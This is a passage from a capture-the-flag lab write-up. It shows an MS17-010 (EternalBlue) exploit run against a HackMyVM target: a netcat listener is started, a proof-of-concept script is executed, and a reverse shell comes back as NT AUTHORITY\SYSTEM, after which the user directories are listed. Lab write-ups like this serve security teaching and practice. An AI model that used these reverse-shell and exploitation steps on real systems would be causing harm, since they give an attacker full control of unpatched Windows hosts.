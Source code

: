 ```python
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```

Now, we can start a listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/Zero/Misc File/AutoBlue-MS17-010]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

After starting the listener we can execute the Python script.
```bash
┌──(env)─(pentester㉿kali)-[~/Desktop/HackMyVM/Zero/Misc File]
└─$ python poc.py 10.0.2.15
<SNIP>
```

When we return to our listener, we will notice a reverse connection from the target. This is a shell as the NT Authority/SYSTEM user. We can use this access to read both flags on the target.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/Zero/Misc File/AutoBlue-MS17-010]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.15] 49891
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>dir C:\Users
dir C:\Users
 Volume in drive C has no label.
 Volume Serial Number is E4E7-1761

 Directory of C:\Users

04/15/2024  07:34 AM    <DIR>          .
04/15/2024  07:34 AM    <DIR>          ..
04/15/2024  07:04 AM    <DIR>          Administrator
04/15/2024  07:04 AM    <DIR>          Public
04/15/2024  07:34 AM    <DIR>          ruycr4ft
               0 File(s)              0 bytes
               5 Dir(s)  20,872,392,704 bytes free

C:\Windows\system32>dir C:\Users\Administrator\Desktop
dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is E4E7-1761

 Directory of C:\Users\Administrator\Desktop

04/15/2024  07:32 AM    <DIR>          .
04/15/2024  07:32 AM    <DIR>          ..
04/15/2024  07:32 AM                76 root.txt
               1 File(s)             76 bytes
               2 Dir(s)  20,872,392,704 bytes free

C:\Windows\system32>dir C:\Users\ruycr4ft\Desktop
dir C:\Users\ruycr4ft\Desktop
 Volume in drive C has no label.
 Volume Serial Number is E4E7-1761

```
